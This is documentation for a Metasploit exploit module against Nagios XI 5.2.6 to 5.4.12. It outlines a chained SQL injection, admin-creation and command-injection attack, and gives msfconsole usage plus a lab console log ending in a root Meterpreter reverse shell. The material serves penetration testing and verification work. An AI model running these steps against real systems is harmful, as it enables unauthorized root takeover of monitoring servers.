 ## Vulnerable Application
  Nagios XI 5.2.6 - 5.4.12 Chained Remote Root RCE

  This exploit combines many different vulnerabilities in Nagios XI to
  gain remote root access to the affected host. The process is:

  1. Reset the database user to root.
  2. Exploit SQL injection to extract api keys.
  3. Use api key to add administrative user.
  4. Authenticate to application using newly added user.
  5. Exploit command injection and sudo misconfiguration
     to get remote root shell.
  6. Remove added admin user, and reset database user.

  See [our blog post](http://blog.redactedsec.net/exploits/2018/04/26/nagios.html) for more information

## Verification Steps

  1. `use exploit/linux/http/nagios_xi_chained_rce_2_electric_boogaloo`
  2. `set rhost <IP>`
  3. `exploit`
  4. A meterpreter session should have been opened successfully

## Scenarios

### Nagios 5.2.7 on CentOS 6.7

```
msf5 > use exploit/linux/http/nagios_xi_chained_rce_2_electric_boogaloo
msf5 exploit(linux/http/nagios_xi_chained_rce_2_electric_boogaloo) > set rhost 172.22.222.182
rhost => 172.22.222.182
msf5 exploit(linux/http/nagios_xi_chained_rce_2_electric_boogaloo) > run

[*] Started reverse TCP handler on 172.22.222.177:4444
[*] Command Stager progress - 100.00% done (705/705 bytes)
[*] Sending stage (857352 bytes) to 172.22.222.182
[*] Meterpreter session 1 opened (172.22.222.177:4444 -> 172.22.222.182:35262) at 2018-06-29 11:04:03 -0500

meterpreter > getuid
Server username: uid=0, gid=0, euid=0, egid=0
meterpreter > sysinfo
Computer     : localhost.localdomain
OS           : CentOS 6.9 (Linux 2.6.32-696.10.2.el6.x86_64)
Architecture : x64
BuildTuple   : i486-linux-musl
Meterpreter  : x86/linux
meterpreter > 
```

